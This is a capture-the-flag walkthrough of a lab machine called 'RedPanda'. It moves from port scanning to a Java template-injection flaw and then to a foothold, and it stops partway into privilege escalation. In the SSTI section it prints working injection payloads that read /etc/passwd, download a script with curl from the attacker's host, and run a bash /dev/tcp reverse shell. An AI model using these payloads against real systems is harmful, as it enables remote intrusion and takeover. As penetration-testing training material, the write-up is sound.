 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)


### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...

##### Code to put in the shell.sh file
```
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
```
Open a httpserver via python ....
```
python -m http.server 8000
```
Then upload your shell script....

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl YOUR_IP:8000/shell.sh --output /tmp/shell.sh ")}
```
**Getting our reverse shell...**
<br> Make sure to set your listener.... 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell.sh")}
```
and boom! 
![Screenshot_2022-11-20_15_47_26](https://user-images.githubusercontent.com/99975622/205457657-02e0bff9-1d54-490b-8cb6-d52aba8d8aa1.png)

**Getting user flag....**
<br>Navigate to the home directory and get your user flag!
![Screenshot_2022-11-20_15_49_02](https://user-images.githubusercontent.com/99975622/205457694-762cf23e-949e-4f26-9b6f-624854c03d3e.png)

### Priviledge Escalation...
**Running linpeas...**
![Screenshot_2022-11-20_16_09_37](https://user-images.githubusercontent.com/99975622/205457719-dd406a39-31dc-492b-8e22-9f4f7cce0718.png)
Linpeas didn't really give us any useful information so i moved on to pspy64 to check if there are any activities running in the background....

**Running pspsy64...**
on looking at some output by pspy64, we can see there's a command running as root on a certain jar file...
![Screenshot_2022-11-20_16_16_56](https://user-images.githubusercontent.com/99975622/205457844-617cb601-5b83-444b-9b0e-7a8e14cdff73.png)

Next step, we grab that jar file and have a look at it....

#### Reverse Engineering the jar file so as to have an idea of what's happening

![Screenshot_2022-11-20_16_18_10](https://user-images.githubusercontent.com/99975622/205457896-dea997a6-ba1c-41df-9056-a2f524b68740.png)



